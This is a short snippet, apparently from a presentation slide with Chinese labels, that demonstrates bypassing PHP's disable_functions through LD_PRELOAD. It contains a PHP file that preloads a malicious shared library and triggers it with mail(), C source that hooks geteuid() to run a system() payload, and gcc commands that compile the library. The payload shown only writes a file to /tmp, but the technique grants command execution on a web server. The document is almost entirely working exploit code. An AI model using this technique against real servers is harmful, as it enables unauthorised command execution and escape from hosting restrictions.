

php代码
<?php
putenv("LD_PRELOAD=/var/www/hack.so");
mail("a@localhost","","","","");
?>
File：hack.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
        system("echo aaaaa> /tmp/abc.txt");
}
int  geteuid() {
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
payload();
}
编译为so文件：
gcc -c -fPIC hack.c -o hack
gcc -shared hack -o hack.so